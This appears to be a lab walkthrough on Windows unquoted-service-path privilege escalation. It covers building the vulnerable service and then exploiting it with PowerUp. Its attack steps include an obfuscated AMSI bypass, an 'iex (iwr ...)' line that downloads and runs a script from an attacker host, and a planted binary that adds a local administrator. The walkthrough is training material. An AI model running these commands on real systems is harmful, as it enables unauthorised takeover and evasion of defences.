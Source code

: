 ```yaml
---
description: >-
  We will create a service with a Unquoted Service Path to escalate privileges
  from a low privileges user account to SYSTEM.
---
```


# Unqouted Service Path

## Configuring

1. Login to `WS01` as the `Administrator` user with password `Welcome01!`.
2. Start PowerShell as administrator and run the following commands to create a service:

* Name = `Service`
* Executable path = `C:\Program Files\bin folder\program\bin x64\Service.exe`
* Start = `auto`

```
sc.exe create "Service" binpath= "C:\Program Files\bin folder\program\bin x64\Service.exe" start= auto
```

![](<../../../.gitbook/assets/image (11) (1) (1) (1).png>)

3\. Run the following command to create the folders for the service:

```
mkdir "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (10) (1) (2) (1) (1) (1).png>)

4\. Run icacls to check the current permissions on the directories with a space in it:

```
icacls.exe "C:\Program Files\bin folder"
icacls.exe "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (15) (2).png>)

Currently the low privileged users can't create any files in the directories with a space. BUILTIN\Users has (RX) privileges. Which is **RX** (read and execute access). For more information about the icacls access rights check out [this SuperUser](https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item) post.

5\. Run icacls to give the `BUILTIN\Users` write permissions on `C:\Program Files\bin folder\program`.

```
icacls.exe "C:\Program Files\bin folder\program" /grant BUILTIN\Users:W
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1).png>)

6\. Run icacls again the check the permissions on the directory:

```
icacls.exe "C:\Program Files\bin folder\program"
```

![](<../../../.gitbook/assets/image (3) (1) (1) (1).png>)

## Attacking

### How it works

When a service exists whose executable path contains spaces and it isn't enclosed within quotes it could be used to run an executable of our choice. This is because if the service is not enclosed within quotes and it has spaces, it would handle the space as a break and pass the rest of the service path as an argument.

If the filename is a long string of text which contains spaces, and is not enclosed within quotation marks, the filename will be executed in the order from left to right until the space is reached and will append `.exe` at the end of this spaced path. For example, consider we have the following path:

`C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

Windows will try to execute the following:

1. `C:\Program Files\A.exe`
2. `C:\Program Files\A Folder\B.exe`
3. `C:\Program Files\A Folder\B Folder\C.exe`
4. `C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

### Tools

* Icacls.exe
* [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

### Executing the attack

#### Powerup

1. Download PowerUp on your attacking machine and host it on a webserver

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -M http.server 8090
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1) (1).png>)

2\. Login on `WS01` with the user `John` and the password `Welcome2022!.`

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

3\. Open Powershell, execute a amsi bypass such ass the one below and download PowerUp into memory with `iex` and `iwr` (`Invoke-Expression` and `Invoke-WebRequest`)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex (iwr http://192.168.248.2:8090/PowerUp.ps1 -usebasicparsing)
```

![](<../../../.gitbook/assets/image (2) (1) (1).png>)

4\. Execute `Invoke-AllChecks` to run all the checks from `PowerUp`.

![](<../../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

5\. The output tells us there is a service with the name `Service` and it has a **unqouted** service path (`C:\Program Files\bin folder\program\bin x64\service.exe`).

6\. To check if we can write a binary in one of the folders check the permissions the folders before the one with a space in it. Since we need to write the binaries `C:\Program Files\bin.exe` or `C:\Program Files\bin folder\program\bin.exe`.

```
icacls.exe "C:\Program Files"
icacls.exe "C:\Program Files\bin folder\program"
```

We have no write permissions in `C:\Program Files`:

![](<../../../.gitbook/assets/image (52) (1) (1) (1) (1) (1) (1) (1).png>)

But we do have write permissions in `C:\Program Files\bin folder\program`.

![](<../../../.gitbook/assets/image (20) (1).png>)

7\. To abuse this run the following command from PowerUp, which will create a executable `bin.exe` in the path `C:\Program Files\bin folder\program` which will add a new local administrator.

```
Write-ServiceBinary -ServiceName 'Service' -ServicePath 'C:\Program Files\bin folder\program\bin.exe' -Username 'privesc' -Password "Welcome2022!" 
```

![](<../../../.gitbook/assets/image (22) (1) (1) (1).png>)

8\. Our current user can't start the service, which means we should restart the machine and check if the user `privesc` is created.

![](<../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png>)

9\. Start a new PowerShell session as Administrator and fill in the credentials `privesc:Welcome2022!`.

![](<../../../.gitbook/assets/image (47) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (39) (1) (1) (1) (1) (1).png>)

#### Cleanup

Remove the user privesc and the binary

```
Remove-Item C:\Program Files\bin folder\program\bin.exe
net user privesc /del
```

## Defending

### Recommendations

* Periodically check for vulnerable services and directory permissions.

### Detection



## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item" %}

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

